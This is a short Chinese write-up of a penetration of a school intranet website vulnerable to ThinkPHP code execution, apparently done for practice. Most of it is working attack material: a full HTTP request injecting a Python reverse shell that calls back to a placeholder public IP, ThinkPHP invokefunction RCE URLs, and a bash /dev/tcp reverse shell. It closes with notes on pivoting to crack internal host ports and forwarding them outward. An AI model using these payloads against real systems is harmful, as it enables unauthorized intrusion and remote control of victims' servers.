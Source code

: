 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close

id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）